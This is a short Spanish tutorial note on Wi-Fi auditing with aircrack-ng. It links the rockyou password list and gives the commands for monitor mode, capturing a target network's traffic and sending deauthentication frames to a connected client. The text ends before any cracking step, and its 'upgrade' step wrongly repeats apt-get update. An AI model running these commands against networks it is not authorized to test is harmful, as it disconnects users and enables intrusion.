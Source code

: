 Habilitar el usuario root
    sudo su

actualización de los paquetes en los repositorios del sistema
    apt-get update

Corremos el upgrade de los paquetes en el sistema
    apt-get update


Herramienta para auditar redes
sudo apt install aircrack-ng

aircrack.ng 
(Obtener un diccionario de claves rockyou.txt es de buena calidad)[https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt&ved=2ahUKEwiRsJD3-riKAxWhp5UCHVbWOOMQFnoECAoQAQ&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd]

Poder conocer valores de red
ifconfig

Obtenemos el nombre de red y con el siguiente comando ponemos nuestra red en modo monitor
airmon-ng start nombre_red

Obtener el nombre de todas las redes disponibles
airodump-ng nombre_redmon

Una vez obtenida el nombre de red a auditar, copiamos BSSID y el numero de canal que ocupa
airodump-ng -c numero_canal --bssid clave-BSSID -w nombre_auditoria nombre_redmon

Obtenemos clave-BSSID de la señal y de una estacion que este ocupandola
aireplay-ng -0 9 -a clave-BSSID -c clave-BSSID_station nombre_redmon
